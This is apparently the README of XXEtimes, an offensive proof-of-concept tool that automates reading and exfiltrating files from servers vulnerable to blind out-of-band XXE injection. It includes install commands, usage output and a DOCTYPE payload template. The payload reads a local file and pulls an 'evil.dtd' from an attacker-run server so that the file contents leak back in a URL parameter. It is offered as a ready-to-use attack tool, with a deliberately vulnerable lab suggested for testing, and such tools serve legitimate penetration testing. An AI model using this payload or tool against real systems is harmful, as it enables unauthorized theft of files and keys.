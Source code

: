 # XXEtimes
XXEtimes is a self-contained PoC to make exploring and exfiltrating files through OOB XXE much quicker.

I come across blind XXE injection vulnerabilities quite a bit, and love using OOB techniques to read files and directory contents, but it's a very tedious process.

Usually it's a multi-step process that involves using Burp Suite Repeater to send the malicious request, a web server to serve up the crafted DTD file, and another listening server to capture the OOB HTTP request which contains file contents. And to change file or directory I have to manually modify the DTD and resend the request each time.

I got sick of the setup time and spinning up servers, so I wrote XXEtimes. Its aim is to be a self-contained tool to aid in data exfiltration once an OOB XXE injection has been discovered. It parses a request file from Burp, spins up a webserver, serves a DTD, and parses responses for file contents. It continually runs and lets you just type files or directories you want to exfiltrate.

See it in action here. I used it to browse home directories and find an unprotected key backup:

[![asciicast](https://asciinema.org/a/122903.png)](https://asciinema.org/a/122903?autoplay=1)

## Setting Up
```
git clone https://github.com/ropnop/xxetimes.git
cd xxetimes
pip install requests
python xxetimes.py
```

The script requires a request file. Once you have found an XXE injection in Burp, export the request file to txt. Add the following DOCTYPE declaration to the request:

```
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "file://{targetFilename}">
<!ENTITY % dtd SYSTEM "http://{xxeHelperServerInterface}:{xxeHelperServerPort}/evil.dtd">
%dtd;]>
```

The special params in "{}" are necessary for XXEtimes to work. There is an example request file in the repo. This works with the deliberately vulnerable [PlayXXE challenge](https://pentesterlab.com/exercises/play_xxe) from Pentesterlab if you want to test it.

## Usage

```
$ python xxetimes.py -h
usage: xxetimes.py [-h] -f REQUESTFILE [-p PORT] [-t TARGETHOST]
                   [-l LISTENPORT] -i INTERFACE

Local File Explorer Using XXE DTD Entity Expansion

optional arguments:
  -h, --help            show this help message and exit
  -f REQUESTFILE, --requestFile REQUESTFILE
                        Vulnerable request file with {targetFilename},
                        {xxeHelperServerInterface}, and {xxeHelperServerPort}
                        marked
  -p PORT, --port PORT  Port on target host (eg 80, 443)
  -t TARGETHOST, --targetHost TARGETHOST
                        Override host header in request file
  -l LISTENPORT, --listenPort LISTENPORT
                        Port for local DTD helper server
  -i INTERFACE, --listenIP INTERFACE
                        Bind IP address for local DTD helper server
```

It will likely require customization and tweaking for each specific vulnerability, but as long as the locations `{targetFilename}`, `{xxeHelperServerInterface}` and `{xxeHelperServerPort}` are present it should work.

Once you have your request file created with the appropriate injection points marked, fire it up with:

`python xxetimes.py -f request.txt -i <IP address to listen on>`

After the server spins up, simply type in the file or directory you wish to request (note: if the file doesn't exist or you don't have permissions, it will fail silently and display nothing)

On the backend, XXEtimes is customizing the "evil.dtd." file to define the `file` entity for what you enter. It then sends the malicious request, listens for the request for 'evil.dtd', serves up `evil.dtd`, listens for the subsequent request which contains the file contents in a URL parameter, then decodes file contents and displays it on screen.

To shutdown gracefully, enter `Ctrl-C`.



## Testing it out
Since I didn't want to write an actually vulnerable server, I've been testing with the "Play XXE" challenge ISO located here. 

<https://pentesterlab.com/exercises/play_xxe/course>

It's a bootable ISO you can run locally if you want to test it. It is vulnerable to XXE on the main login page, and the example request should work out of the box on it (as long as the IP address is updated!)


## Future plans
The code is pretty hacky but is intended to serve as a PoC for now. I'd like to clean it up and make it more stable eventually.

- [ ] Support history and "up arrow" completion
- [ ] Save files locally once they're retrieved
- [ ] Support other OOB methods like FTP
